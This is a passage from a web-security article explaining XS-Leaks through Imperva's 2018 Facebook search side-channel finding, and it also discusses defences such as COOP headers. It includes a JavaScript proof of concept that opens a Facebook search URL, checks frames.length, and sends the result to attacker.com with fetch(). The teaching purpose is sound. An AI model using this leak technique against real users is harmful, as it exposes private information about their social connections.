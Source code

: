 For example, in 2018, the security company Imperva wrote a blog post titled [Patched Facebook Vulnerability Could Have Exposed Private Information About You and Your Friends](https://www.imperva.com/blog/facebook-privacy-bug/), which utilized this technique.

Facebook has a search feature that allows users to search for friends, posts, photos, etc. This search feature is designed for easy sharing, so users can directly access it through the URL. For example, the URL `https://www.facebook.com/search/str/chen/users-named/me/friends/intersect` will display search results for friends with the name "chen".

And the author discovered a difference, which is that if there is something in the search results, there will be an iframe on the page, and the author speculates that this may be for Facebook tracking purposes. If there are no results, then there won't be this iframe.

In other words, we can determine whether there are search results or not by checking `frames.length`.

The attack process is as follows: we first prepare an HTML with the following content:

``` html
<script>
  let win = window.open('https://www.facebook.com/search/str/chen/users-named/me/friends/intersect')
  setTimeout(() => {
    if (win.frames.length === 0) {
      fetch('https://attacker.com/?result=no')
    } else {
      fetch('https://attacker.com/?result=yes')
    }
    win.close()
  }, 2000)
</script>
```

Then we send this webpage to the target. After the target opens the webpage, the attacker's server will receive the search results.

Defending against this type of attack is more difficult because the same-site cookie Lax doesn't work here. The code uses `window.open`, and unless you set it to strict, the cookie will be sent along with the request.

The previously mentioned Fetch Metadata is also ineffective because this is actually a normal request.

If you want to defend against this using existing mechanisms, you can add the COOP (Cross-Origin-Opener-Policy) header. This way, the opened window will lose its connection to the original window, and it won't be able to access `win.frames`.

Another option is to modify the search results page. Whether there are search results or not, either always have an iframe or never have one, so that information cannot be leaked through the number of iframes.

## Conclusion

In this article, we learned what side-channel attacks are and understood the basic principles of XSLeaks. We also saw several real-world examples that demonstrate that this is indeed an exploitable vulnerability.
